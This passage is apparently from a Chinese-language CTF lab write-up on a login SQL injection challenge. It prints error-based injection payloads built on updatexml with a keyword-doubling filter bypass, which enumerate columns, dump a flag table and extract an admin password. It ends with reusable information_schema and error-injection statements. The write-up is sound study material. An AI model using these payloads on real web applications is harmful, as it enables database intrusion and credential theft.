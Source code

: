继续查询列名：
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
\end{lstlisting}
得到列名为flag，继续查询：
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(selselectect group_concat(flag) from fl4g)),1)#
\end{lstlisting}
获取到flag:
\begin{lstlisting}
~n1book{login_sqli_is_nice}
\end{lstlisting}

PS:最后用同样的方法获得了admin的密码，但是结果是一串长字符串，并不能登陆进去。

\subsection{小结}
SQL是比较复杂的注入，首先要判断注入类型、注入点，然后才能开展注入。至于怎么判断类型、怎么从回显报错信息等得到更多信息，都是经验之谈，需要多做题积累。

\begin{itemize}
    \item 符号小结：单引号\%27，双引号\%22,空格\%20,丼号\%23。
    \item UNION查询列数需要和之前语句一致。
\end{itemize}

重要语句：
\begin{lstlisting}
表名列名：
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name ='NAME'
报错注入:
updatexml(1,concat(0x7e,(select pwd from wp_user)),1)
\end{lstlisting}